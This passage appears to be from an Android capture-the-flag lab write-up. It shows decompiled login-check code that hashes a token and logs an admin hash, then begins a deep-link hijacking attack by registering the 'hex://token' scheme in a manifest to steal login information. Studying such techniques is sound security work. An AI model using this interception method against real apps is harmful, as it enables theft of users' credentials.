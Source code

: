 ```java
            try {
                String strEncodeToString = Base64.getEncoder().encodeToString(MessageDigest.getInstance("SHA-256").digest(queryParameter2.getBytes()));
                if (strEncodeToString.equals("a/AR9b0XxHEX7zrjx5KNOENTqbsPi6IsX+MijDA/92w=")) {
                    if (queryParameter.equals("user")) {
                        Toast.makeText(this, "User login successful", 1).show();
                    } else if (queryParameter.equals("admin")) {
                        Log.i("Flag14", "hash: " + strEncodeToString);
                        this.f182f.addTag(queryParameter2);
                        Toast.makeText(this, "Admin login successful", 1).show();
                        success(this);
                    }
                }
            } catch (NoSuchAlgorithmException e) {
                throw new RuntimeException(e);
            }
        }
    }
}
```

When the user opens this activity, they are redirected to the web page "https://ht-api..." This page shows that the user is already logged in. 

<img src="/static/hijacking-deep-link-intents.png">

Clicking on 'Connect' redirects us to our legitimate app.

Our first goal is to steal the login information. To achieve this, we first need to register the deep link in the manifest.

```xml
<activity
    android:name=".MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN" />
        <category android:name="android.intent.category.LAUNCHER" />
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="hex"
            android:host="token"/>
    </intent-filter>
</activity>
```